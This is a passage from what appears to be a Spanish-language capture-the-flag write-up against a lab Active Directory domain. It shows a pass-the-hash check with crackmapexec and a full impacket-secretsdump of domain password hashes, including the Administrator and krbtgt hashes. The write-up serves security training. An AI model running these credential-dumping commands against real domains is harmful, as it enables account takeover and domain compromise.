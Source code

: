 Con esto veremos que ha funcionado y hemos obtenido los `hashes` de las contraseñas de dichos usuarios pero de forma local, lo que queremos es obtener las contraseñas de los mismo usuarios pero del dominio, el `hash` que nos interesa es el del `DC` y la que mas atrae que pueda ser esa es la del `$MACHINE.ACC`, por lo que vamos a probar a que usuario pertenece del listado de usuarios que obtuvimos anteriormente:

```shell
crackmapexec smb <IP> -u <USERS_DOMAIN> -H 73d82a1beee2bf886b0ea8421f66240d
```

Info:

```
SMB         192.168.10.49   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.10.49   445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:73d82a1beee2bf886b0ea8421f66240d STATUS_LOGON_FAILURE 
SMB         192.168.10.49   445    DC01             [-] SOUPEDECODE.LOCAL\Guest:73d82a1beee2bf886b0ea8421f66240d STATUS_LOGON_FAILURE 
SMB         192.168.10.49   445    DC01             [-] SOUPEDECODE.LOCAL\krbtgt:73d82a1beee2bf886b0ea8421f66240d STATUS_LOGON_FAILURE 
SMB         192.168.10.49   445    DC01             [+] SOUPEDECODE.LOCAL\DC01$:73d82a1beee2bf886b0ea8421f66240d
```

Vemos que el usuario es `DC01` por lo que nos dumpearemos con dicho usuario los `hashes` pero en este caso del dominio, de la siguiente forma:

```shell
impacket-secretsdump 'SOUPEDECODE.LOCAL/DC01$@<IP>' -hashes 'aad3b435b51404eeaad3b435b51404ee:73d82a1beee2bf886b0ea8421f66240d'
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8982babd4da89d33210779a6c5b078bd:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fb9d84e61e78c26063aced3bf9398ef0:::
soupedecode.local\bmark0:1103:aad3b435b51404eeaad3b435b51404ee:d72c66e955a6dc0fe5e76d205a630b15:::
soupedecode.local\otara1:1104:aad3b435b51404eeaad3b435b51404ee:ee98f16e3d56881411fbd2a67a5494c6:::
soupedecode.local\kleo2:1105:aad3b435b51404eeaad3b435b51404ee:bda63615bc51724865a0cd0b4fd9ec14:::
soupedecode.local\eyara3:1106:aad3b435b51404eeaad3b435b51404ee:68e34c259878fd6a31c85cbea32ac671:::
soupedecode.local\pquinn4:1107:aad3b435b51404eeaad3b435b51404ee:92cdedd79a2fe7cbc8c55826b0ff2d54:::
soupedecode.local\jharper5:1108:aad3b435b51404eeaad3b435b51404ee:800f9c9d3e4654d9bd590fc4296adf01:::
soupedecode.local\bxenia6:1109:aad3b435b51404eeaad3b435b51404ee:d997d3309bc876f12cbbe932d82b18a3:::
soupedecode.local\gmona7:1110:aad3b435b51404eeaad3b435b51404ee:c2506dfa7572da51f9f25b603da874d4:::
............................<DEMAS_USUARIOS_DOMINIO>..............................
```
